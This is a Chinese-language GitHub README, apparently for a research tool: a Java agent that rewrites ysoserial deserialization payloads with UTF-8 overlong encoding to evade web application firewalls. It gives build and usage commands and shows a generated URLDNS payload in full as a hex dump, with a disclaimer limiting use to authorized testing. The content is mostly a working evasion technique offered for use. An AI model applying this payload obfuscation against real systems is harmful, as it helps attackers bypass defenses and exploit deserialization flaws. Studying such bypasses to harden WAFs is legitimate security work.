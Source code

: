 # UTF8 Overlong WAF Bypass Hook
本项目是对 先知 上发布的 [UTF-8 Overlong Encoding](https://xz.aliyun.com/t/14300) 绕过 WAF (Web Application Firewall) 技术的研究的实现。通过 Java 反序列化利用 Java Agent 技术来实现 UTF-8 Overlong Encoding，从而可能绕过某些 WAF 的防护。


## 使用方法
### 编译
```sh
mvn clean package -Dmaven.test.skip=true
```
这将编译项目并生成必要的 JAR 文件，同时跳过测试。
### 使用

1. 使用 Java Agent 生成 payload：
```sh
java -jar -javaagent:/path/to/UTF8_Agent-1.0-SNAPSHOT.jar ysoserial-0.0.6-SNAPSHOT-all_frohoff.jar URLDNS http://4.example.com > utf8_obf_urldns.bin
```

请确保将 `/path/to/UTF8_Agent-1.0-SNAPSHOT.jar` 替换为实际的 Java Agent 文件路径。

2. 查看生成的 payload：
```sh
xxd -c 42 ./utf8_obf_urldns.bin

00000000: aced 0005 7372 0033 e081 aae0 81a1 e081 b6e0 81a1 e080 aee0 81b5 e081 b4e0 81a9 e081 ace0 80ae e081 88e0  ....sr.3..................................
0000002a: 81a1 e081 b3e0 81a8 e081 8de0 81a1 e081 b005 07da c1c3 1660 d103 0002 4600 1ee0 81ac e081 afe0 81a1 e081  .......................`....F.............
00000054: a4e0 8186 e081 a1e0 81a3 e081 b4e0 81af e081 b249 001b e081 b4e0 81a8 e081 b2e0 81a5 e081 b3e0 81a8 e081  ...................I......................
0000007e: afe0 81ac e081 a478 703f 4000 0000 0000 0c77 0800 0000 1000 0000 0173 7200 24e0 81aa e081 a1e0 81b6 e081  .......xp?@......w.........sr.$...........
000000a8: a1e0 80ae e081 aee0 81a5 e081 b4e0 80ae e081 95e0 8192 e081 8c96 2537 361a fce4 7203 0007 4900 18e0 81a8  ..........................%76...r...I.....
000000d2: e081 a1e0 81b3 e081 a8e0 8183 e081 afe0 81a4 e081 a549 000c e081 b0e0 81af e081 b2e0 81b4 4c00 1be0 81a1  .....................I..............L.....
000000fc: e081 b5e0 81b4 e081 a8e0 81af e081 b2e0 81a9 e081 b4e0 81b9 7400 36e0 818c e081 aae0 81a1 e081 b6e0 81a1  ........................t.6...............
00000126: e080 afe0 81ac e081 a1e0 81ae e081 a7e0 80af e081 93e0 81b4 e081 b2e0 81a9 e081 aee0 81a7 e080 bb4c 000c  .......................................L..
00000150: e081 a6e0 81a9 e081 ace0 81a5 7100 7e00 034c 000c e081 a8e0 81af e081 b3e0 81b4 7100 7e00 034c 0018 e081  ............q.~..L..............q.~..L....
0000017a: b0e0 81b2 e081 afe0 81b4 e081 afe0 81a3 e081 afe0 81ac 7100 7e00 034c 0009 e081 b2e0 81a5 e081 a671 007e  ......................q.~..L...........q.~
000001a4: 0003 7870 ffff ffff ffff ffff 7400 27e0 80b4 e080 aee0 81a5 e081 b8e0 81a1 e081 ade0 81b0 e081 ace0 81a5  ..xp........t.'...........................
000001ce: e080 aee0 81a3 e081 afe0 81ad 7400 0071 007e 0005 7400 0ce0 81a8 e081 b4e0 81b4 e081 b070 7874 003c e081  ............t..q.~..t..............pxt.<..
000001f8: a8e0 81b4 e081 b4e0 81b0 e080 bae0 80af e080 afe0 80b4 e080 aee0 81a5 e081 b8e0 81a1 e081 ade0 81b0 e081  ..........................................
00000222: ace0 81a5 e080 aee0 81a3 e081 afe0 81ad 78       
```
这将以十六进制格式显示 payload 内容。

### 注意事项
- 本工具旨在帮助安全研究者和开发人员了解和防范 Java 反序列化漏洞，不应用于非法目的。
- 使用本工具可能对目标系统造成影响，请确保在授权的环境中使用。

## 贡献
欢迎贡献代码和改进建议！请通过 GitHub 的 Pull Requests 功能提交您的贡献。

## 许可证
本项目采用 [Apache License 2.0](LICENSE) 许可证。